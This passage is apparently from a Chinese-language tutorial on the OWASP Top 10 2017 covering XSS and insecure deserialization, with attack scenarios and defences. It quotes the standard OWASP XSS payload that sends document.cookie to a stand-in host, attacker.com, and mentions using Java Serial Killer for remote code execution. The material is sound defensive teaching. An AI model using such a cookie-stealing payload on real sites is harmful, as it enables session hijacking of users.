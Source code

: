 典型的 XSS 攻击包括会话偷窃、账户接管、MFA 忽略、DOM 节点替换或损坏以及针对用户浏览器的恶意软件下载、键盘记录或其他客户端攻击。

#### 2.攻击场景

**场景 #1**

在以下 HTML 代码块构建过程中，应用程序未经验证就使用了非可信数据：

```html
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

攻击者把浏览器的 'CC' 参数修改为如下形式：

```html
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.
```

这种攻击可以导致受害者会话 ID（session ID）发送到攻击者网站，使得攻击者能够劫持用户的当前会话（current session）。

**提示：**攻击者可以使用 XSS 破坏任何可能部署的自动化跨站点请求伪造（CSRF）。

#### 3.防范措施

防范 XSS 攻击者需要将非可信数据与活跃浏览器内容分离，措施包括：

- 使用设计之初带有自动化 XSS 逃逸功能的框架，例如最新版的 Ruby on Rails，React JS
- 基于 HTML 输出的上下文，逃避任何不受信任的 HTTP 请求数据可以解决反射和存储 XSS 漏洞
- ...

### **A8: 2017-Insecure Deserialization**

#### 1.产生背景

如果应用程序和 API 对攻击者发送的恶意或篡改后的对象进行反序列化操作，那么将会受到相应攻击，一般来说攻击主要有以下两种类型：

- 当存在应用程序可用类能够在反序列化时或在反序列化之后改变行为的情况下，攻击者修改应用程序逻辑或实现任意远程代码执行的方式攻击相关对象或数据结构
- 典型的数据篡改攻击，例如访问控制相关攻击（使用现有的但内容被改变的数据结构）

序列化可以用在应用的如下场景中：

- 远程和内部进行通信（RPC/IPC）
- 无限协议、网络服务、消息代理
- 缓存/持久化
- ...

> 对于使用 Python 3.X 的小伙伴，官方文档明确提示：
>
> **Warning：**The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source. （警告：永远不要对**非可信来源**或**非认证**来源数据进行反序列化操作）

#### 2.攻击场景

**场景 #1**

React 应用访问一系列 Spring Boot 微服务。作为程序员，他们尝试确保代码不可更改。他们想出的方案时序列化用户状态并传递给每个前后请求。攻击者注意到 "R00" Java 对象签名，然后使用 Java 序列杀手（JAVA Serial Killer）工具在服务器端获得远程代码执行权限。
